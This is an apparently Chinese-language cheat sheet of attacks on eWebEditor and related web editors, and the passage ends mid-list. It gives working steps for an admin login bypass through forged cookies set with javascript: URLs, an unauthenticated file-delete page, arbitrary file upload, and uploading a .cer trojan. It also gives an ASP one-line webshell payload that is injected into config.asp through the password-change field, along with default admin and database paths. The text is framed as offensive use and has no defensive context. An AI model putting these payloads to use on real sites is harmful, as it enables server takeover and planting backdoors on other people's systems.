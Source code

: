脆弱描述：  
此漏洞存在于 Example\NewsSystem 目录下的 delete.asp 文件中，这是 ewebeditor 的测试页面，无须登陆可以直接进入。  
攻击利用: (请修改 action 字段为指定网址)  
Del Files.html

### eWebEditor PHP/ASP 后台通杀漏洞

影响版本: PHP ≥ 3.0~3.8 与 asp 2.8 版也通用，或许低版本也可以，有待测试。  
攻击利用:  
进入后台 / eWebEditor/admin/login.php, 随便输入一个用户和密码, 会提示出错了.  
这时候你清空浏览器的 url, 然后输入

javascript:alert(document.cookie=”adminuser=”+escape(“admin”));  
javascript:alert(document.cookie=”adminpass=”+escape(“admin”));  
javascript:alert(document.cookie=”admindj=”+escape(“1”));

而后三次回车, 清空浏览器的 URL, 现在输入一些平常访问不到的文件如../ewebeditor/admin/default.php，就会直接进去。

### eWebEditor for php 任意文件上传漏洞

影响版本: ewebeditor php v3.8 or older version  
脆弱描述:  
此版本将所有的风格配置信息保存为一个数组 $aStyle, 在 php.ini 配置 register_global 为 on 的情况下我们可以任意添加自己喜欢的风格，并定义上传类型。  
攻击利用:  
phpupload.html

### eWebEditor JSP 版漏洞

大同小异，我在本文档不想多说了，因为没环境 测试，网上垃圾场那么大，不好排查。用 JSP 编辑器的我觉得 eweb 会比 FCKeditor 份额少得多。

### eWebEditor 2.8 商业版插一句话木马

影响版本:=>2.8 商业版  
攻击利用:  
登陆后台，点击修改密码—- 新密码设置为 `1":eval request("h")’`  
设置成功后，访问 asp/config.asp 文件即可，一句话木马被写入到这个文件里面了.

注意：可能因为转载的关系，代码会变掉，最好本地调试好代码再提交。

### eWebEditorNet upload.aspx 上传漏洞 (WebEditorNet)

脆弱描述：  
WebEditorNet 主要是一个 upload.aspx 文件存在上传漏洞。  
攻击利用:  
默认上传地址：/ewebeditornet/upload.aspx  
可以直接上传一个 cer 的木马  
如果不能上传则在浏览器地址栏中输入 javascript:lbtnUpload.click();  
成功以后查看源代码找到 uploadsave 查看上传保存地址，默认传到 uploadfile 这个文件夹里。

### southidceditor(一般使用 v2.8.0 版 eWeb 核心)

http://www.xxxx.com/admin/southidceditor/datas/southidceditor.mdb  
http://www.xxxx.com/admin/southidceditor/admin/admin_login.asp  
http://www.xxxx.com/admin/southidceditor/popup.asp  
bigcneditor(eWeb 2.7.5 VIP 核心)
